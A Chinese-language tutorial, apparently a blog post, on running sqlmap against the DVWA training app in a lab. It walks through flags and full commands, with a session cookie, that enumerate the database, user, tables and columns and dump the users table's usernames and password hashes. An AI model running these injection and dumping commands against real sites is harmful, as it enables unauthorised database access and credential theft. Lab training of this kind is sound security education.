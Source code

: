 **SQLMAP基本语法**：

- -u:指定目标URL
- --cookie：当前会话的cookies值
- -b：获取数据库类型，检查数据库管理系统标识
- --current-db：获取当前数据库
- --current-user：获取当前数据库使用的用户
- -string：当查询可用来匹配页面中的字符串
- -users：枚举DBMS用户
- -password：枚举DBMS用户密码hash
### 1x02 枚举当前数据库名称和用户名
查询一下当前的数据库：
`sqlmap -u "http://10.34.80.4/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=edc3d366bb72538cb8af3df2bbf19979" --current-db`

- -u后是需要攻击的url
- 因为dvwa是需要登陆的，需要cookie用作身份验证，可以通过浏览器F12抓包获取
- --current-db表示查询当前数据库
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117163655704.png#pic_center)
然后查询一下当前的使用者：
`sqlmap -u "http://10.34.80.4/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=edc3d366bb72538cb8af3df2bbf19979" --current-user
`
![在这里插入图片描述](https://img-blog.csdnimg.cn/2020111716382474.png#pic_center)
### 1x03 枚举数据库用户名和密码

**枚举数据库的表名：**

因为我们是dvwa所以爆破dvwa数据库中的数据表

`sqlmap -u "http://10.34.80.4/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=edc3d366bb72538cb8af3df2bbf19979" -D dvwa --tables
`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117164551451.png#pic_center)
**枚举数据表中的列名：**
根据上面的枚举结果，我们应该是要看users数据表中的内容：
`sqlmap -u "http://10.34.80.4/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=edc3d366bb72538cb8af3df2bbf19979" -D dvwa -T users --columns
`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117164855105.png#pic_center)
**枚举数据表中的用户和密码：**
查询到users数据表中有那么多的字段，我们想要的数据应该就在user和password中了
`sqlmap -u "http://10.34.80.4/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie "security=low; PHPSESSID=edc3d366bb72538cb8af3df2bbf19979" -D dvwa -T users -C user,password --dump
`
这里会询问你是否使用Kali中自带的字典进行攻击，选择是就好了
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117165159959.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3B5dGhvbl9MQ19ub2h0eXA=,size_16,color_FFFFFF,t_70#pic_center)
最后得到结果：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117165304520.png#pic_center)

